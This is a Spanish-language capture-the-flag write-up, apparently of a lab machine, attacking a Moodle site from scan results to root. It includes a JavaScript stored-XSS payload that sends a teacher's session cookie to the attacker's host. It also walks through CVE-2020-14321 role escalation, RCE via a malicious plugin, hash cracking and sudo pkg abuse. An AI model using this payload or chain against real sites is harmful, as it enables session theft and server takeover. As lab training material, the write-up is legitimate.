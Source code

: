 ----------
- Tags: #xss #vhost #xss-stored #stealing-cookie #CVE-2020-14321 #mass-assignment-attack #password-crack #sudoers-pkg
----
## Técnicas utilizadas
- VHost Brute Force  
- Moodle Enumeration  
- Moodle - Stored XSS  
- Stealing a teacher's session cookie  
- Privilege escalation from teacher role into manager role to RCE [CVE-2020-14321]  
- Elevating our privilege to Manager in Moodle - User Impersonation  
- Mass Assignment Attack - Enable Full Permissions  
- Giving us the ability to install a plugin  
- Achieving remote command execution through installation of a malicious Plugin  
- Enumerating the database once we have gained access to the system  
- Cracking Hashes  
- Abusing sudoers privilege (pkg install package) [Privilege Escalation]
## Procedimientos

![[Pasted image 20230626171531.png]]

#### Reconocimiento 

Si lanzamos un **nmap** contra la maquina, podremos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,80,3306 10.10.10.234 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 09:22 MST
Nmap scan report for 10.10.10.234
Host is up (0.13s latency).

PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d698378fc91f819c875a71e764505dc (RSA)
|   256 e9b2d2239dcf0e63e06db9b1a6869338 (ECDSA)
|_  256 7f5188f73cdd775eba254d4c0925ea1f (ED25519)
80/tcp   open   http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Schooled - A new kind of educational institute
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
3306/tcp closed mysql
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.34 seconds
```

Un reconocimiento de tecnologías web con **whatweb** nos da el siguiente input:
```ruby
# whatweb 10.10.10.234
http://10.10.10.234 [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

-----------------
#### VHost Brute Force  

Podemos ejecutar una ataque de fuerza bruta con **gobuster** para enumerar subdominios dispobles para el dominio. Encontramos uno:
![[Pasted image 20230627093429.png]]

Este subdominio nos lleva a **Moodle**, según google **Moodle** es:

	Moodle es un sistema de gestión de aprendizaje, gratuito y de código abierto escrito en PHP​​ y distribuido bajo la Licencia Pública General GNU.​ ​

--------
#### Moodle Enumeration  
Tenemos la capacidad de crear una cuenta como alumno, asi que nos creamos una cuenta para poder enumerar más en profundidad el software. Podemos **unirnos** a un curso, el que deseemos, tomaremos como ejemplo el curso de matematicas y nos uniremos.

Si leemos un poco el anuncio que nos dejo el profesor, nos dice que va estar revisando cada perfil constantemente atentando contra el campo **MoodleNet Profile**:
![[Pasted image 20230627093503.png]]

---------------
#### Moodle - Stored XSS  
Si intentamos colarle un **XSS** al campo, vemos que si es vulnerable y se queda almacenado, a eso se le conoce como **XSS Stored**. Si intentamos cargar un script desde nuestro lado y esperamos a ver si entra algún profesor, veremos se nos tramita una petición por **GET**:
```python
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [27/Jun/2023 09:31:16] code 404, message File not found
10.10.10.234 - - [27/Jun/2023 09:31:16] "GET /pwned.js HTTP/1.1" 404 -
```

-----------
#### Stealing a teacher's session cookie 
Podemos intentar secuestrar la cookie del profesor a través del **XSS Stored** con el siguiente script en **js**:
```javascript

var req1 = new XMLHttpRequest();
cookie = document.cookie;
req1.open("GET", "http://<my-ip>/cookie?=" + cookie, true);
req1.send()
```

Una vez con la cookie en nuestra disposición, podemos cambiarla para estar como el usuario engañado.

--------------
#### Privilege escalation from teacher role into manager role to RCE [CVE-2020-14321]  
##### Elevating our privilege to Manager in Moodle - User Impersonation  
Una vez como el profesor, podemos ir al curso que tenemos creado e ir a inspeccionar a los alumnos. En esta sección tenemos una opcion de nombre **Enrol Users**, tenemos que acceder a ella:
![[Pasted image 20230627093920.png]]

Intentamos añadir a la usuario **Lian Carter** por poner un ejemplo. Pasamos la petición por **BurSuite** y vamos a cambiar los valores de los atributos: **User List** y **Role To assign** de la siguiente manera:
![[Pasted image 20230627093858.png]]

Esto nos permitira conectarnos como la persona que se nos apetezca.

--------
#### Mass Assignment Attack - Enable Full Permissions
Ahora como podemos acceder al **moodle** con el usuario que cuenta con privilegios de **manager**, se nos desbloquea una nueva configuracion:
![[Pasted image 20230627094656.png]]

Lo siguiente a tener en cuenta, es intentar subir un plugin, que de primeras no deberiamos de poder subirlo ya que no nos aparece la opcion:
![[Pasted image 20230627094727.png]]

Para poder lograr subirlo, tendremos que asigarnos todos los permisos a **ON**, esto lo lograremos con un **Mass Assigment Attack**, podemos copiar todo la data integra a mandar del repositorio [HoangKien1020](https://github.com/HoangKien1020/CVE-2020-14321) y con esto tendremos todos los permisos habilitados. Esto se gestiona desde los roles:
![[Pasted image 20230627094851.png]]

La petición en **BurpSuite** se veria algo como esto:
![[Pasted image 20230627095232.png]]

-------
#### Giving us the ability to install a plugin  

Con todos los permisos habilitados, tenemos la capacidad de subir **plugins**. Subiremos el plugin que viene contemplado en el repositorio de [HoangKien1020](https://github.com/HoangKien1020/CVE-2020-14321) en este también nos indican la ruta a la que podemos atentar para la ejecución remota de comandos.

----------------
#### Achieving remote command execution through installation of a malicious Plugin
Si intentmamos ejecutar comandos, el output se veria tal que asi:
![[Pasted image 20230627100201.png]]
e
-----------
#### Enumerating the database once we have gained access to the system
Dentro de la maquina, podemos listar el archivo **Config.php** de **Moodle** ya que estos suelen contener credenciales a la base de datos. Podemos intentar conectarnos a la **Base de datos** para enumarla e intentar sacar la información más relevante.

------
#### Cracking Hashes 
De la base de datos podemos recopilar unos hashes de algunos usuarios los cuales podemos tratar de romper con **John**.

------
#### Abusing sudoers privilege (pkg install package) [Privilege Escalation]
Vemos que tenemos de privilegio de sudoers el **pkg**. Podemos tirar de **GTFObins** para escalar privilegios.


